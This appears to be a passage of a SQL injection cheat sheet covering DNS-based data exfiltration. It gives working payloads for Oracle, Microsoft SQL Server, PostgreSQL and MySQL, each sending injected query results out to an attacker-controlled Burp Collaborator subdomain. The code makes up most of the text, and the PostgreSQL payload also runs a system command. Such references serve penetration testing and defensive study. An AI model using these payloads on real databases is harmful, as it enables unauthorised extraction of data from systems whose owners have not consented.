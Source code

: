 ## DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an  external domain containing the results of an injected query. To do this,  you will need to use Burp Collaborator  to generate a unique Burp Collaborator subdomain that you will use in  your attack, and then poll the Collaborator server to retrieve details  of any DNS interactions, including the exfiltrated data.         

##### Oracle
```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```
##### Microsoft
```
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
```
##### PostgreSQL
```
create OR replace function f() returns void as $$
        declare c text;
        declare p text;
        begin
        SELECT into p (SELECT YOUR-QUERY-HERE);
        c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
	    execute c;
        END;
        $$ language plpgsql security definer;
        SELECT f();
```
##### MySQL
The following technique works on Windows only:
```
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

